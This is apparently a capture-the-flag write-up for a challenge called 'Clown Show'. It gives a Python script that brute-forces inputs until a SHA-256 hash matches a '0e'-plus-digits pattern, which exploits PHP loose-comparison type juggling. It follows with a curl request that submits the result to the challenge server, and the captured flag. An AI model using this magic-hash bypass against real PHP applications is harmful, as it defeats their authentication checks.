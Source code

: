 # Clown Show

/src.php has src

kinda piss type juggling so basic bruteforce

```py
import hashlib

def hash(string):
    return hashlib.sha256(string).hexdigest()

time = b"12345678901"
name = b"test"
import os, binascii
import re
while True:
    answer = binascii.hexlify(os.urandom(20))
    thing = hash(name + answer + time)
    if len(re.findall('^(.{5}0e[\d]{18})', thing)) > 0:
        print(re.findall('^.....0e\d{18}', thing))
        print(name + b" " + answer + b" " + time)
        print(thing)
        exit()
```
curl http://challenge.ctf.games:31965/index.php -d 'name=test&answer=6b067ebdb712e42e64e6dcaeb6513afd0f801bfc&time=12345678901'

#### Flag:flag{w00t_W0ot_juggl1n6_1s_2_3z}
